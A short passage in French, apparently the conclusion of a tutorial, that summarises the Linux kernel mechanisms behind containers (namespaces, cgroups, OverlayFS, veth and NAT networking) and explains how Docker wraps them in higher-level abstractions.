2. **Namespaces** (`unshare`) — isolent les processus, le réseau, le hostname et les IPC.
3. **Cgroups** — limitent les ressources consommées (CPU, mémoire, PIDs).
4. **OverlayFS** — partage les fichiers de base entre conteneurs avec copy-on-write.
5. **Configuration réseau** (`veth`, NAT) — connecte le conteneur à internet tout en l'isolant.

Ces mécanismes sont exactement ce que Docker orchestre automatiquement lorsqu'il lance un conteneur. La différence : Docker ajoute une couche d'abstraction (images, registres, `docker-compose`) qui rend tout cela accessible sans manipuler le noyau directement.
